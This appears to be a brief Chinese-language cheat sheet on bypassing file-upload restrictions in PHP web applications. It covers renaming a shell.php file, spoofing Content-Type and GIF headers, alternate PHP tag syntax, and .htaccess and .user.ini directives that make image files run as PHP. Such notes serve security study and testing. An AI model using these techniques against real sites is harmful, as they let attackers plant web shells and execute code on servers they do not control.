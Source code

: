 # 更改文件名
例如将`shell.php`改为`shell.gif`，`shell.png`之类的

# 更改`Content-Type`
例如`Content-Type: image/gif`

# 添加文件头
例如伪造`GIF`时添加`GIF98a`文件头

# 更改`php`木马为`phtml`
例如`<?php phpinfo();?>`改为`<script language='php'>phpinfo();</script>`

# 上传`.htaccess`文件
对于`Apache`有效
```
AddType application/x-httpd-php .jpg
```
该`.htaccess`文件指定使用以`php`代码看待名称含有`.jpg`的文件

```
php_value auto_prepend_file 1.txt
php_value auto_append_file 2.txt
```
该`.htaccess`文件指定在解析`php`文件前先包含`1.txt`中的内容，解析`php`文件后包含`2.txt`中的内容

# 上传`.user.ini`文件
`php`的用户配置文件，适用范围比`.htaccess`更广
```ini
auto_prepend_file=1.txt
auto_append_file=2.txt
```
和上面的`.htaccess`效果相同

#Web #Apache #PHP #nginx #访问控制 #HTML #文件上传 #bypass #phtml